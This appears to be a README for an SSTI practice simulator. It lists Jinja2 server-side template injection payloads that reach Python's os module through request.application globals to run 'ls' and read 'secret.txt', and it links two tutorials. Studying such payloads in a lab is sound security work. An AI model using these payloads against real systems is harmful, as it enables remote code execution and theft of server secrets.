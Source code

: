 # ssti_simulator

## Remote Code Execution through SSTI `request.application`
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}

## Remote Code Exection through SSTI String class eg: `"".__class__`
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
